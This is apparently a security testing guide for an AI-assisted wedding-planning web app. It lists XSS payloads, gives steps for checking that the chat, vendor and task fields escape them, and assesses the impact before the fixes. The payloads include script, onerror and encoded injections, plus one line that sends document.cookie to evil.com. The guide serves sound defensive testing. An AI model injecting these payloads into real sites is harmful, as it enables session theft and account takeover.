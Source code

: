 Use these payloads to verify XSS is blocked:

```html
<!-- Basic script injection -->
<script>alert('XSS')</script>

<!-- Image onerror -->
<img src=x onerror=alert('XSS')>

<!-- SVG onload -->
<svg onload=alert('XSS')>

<!-- Iframe injection -->
<iframe src="javascript:alert('XSS')">

<!-- Event handler -->
<input onfocus=alert('XSS') autofocus>

<!-- Body onload -->
<body onload=alert('XSS')>

<!-- Advanced: Encoded -->
<img src=x:alert(alt) onerror=eval(src) alt=xss>

<!-- Session theft attempt -->
<img src=x onerror="fetch('https://evil.com?token='+document.cookie)">
```

### How to Test:

1. **Chat Test**:
   - Paste payload into chat box
   - Send message
   - Verify it displays as plain text, no alert

2. **Vendor Test**:
   - Tell AI: "Add vendor named `<img src=x onerror=alert('XSS')>`"
   - View dashboard
   - Verify no alert, vendor name shows escaped

3. **Task Test**:
   - Tell AI: "Create task `<script>alert('XSS')</script>`"
   - View dashboard
   - Verify no alert, task name shows escaped

---

## Impact Assessment

### Before Fixes (CRITICAL):
- ⚠️ Any user could steal session tokens from all other users
- ⚠️ Account takeover possible within minutes
- ⚠️ Malicious wedding member could compromise entire wedding
- ⚠️ Data exfiltration of all wedding data
- ⚠️ Ransomware-style attacks possible
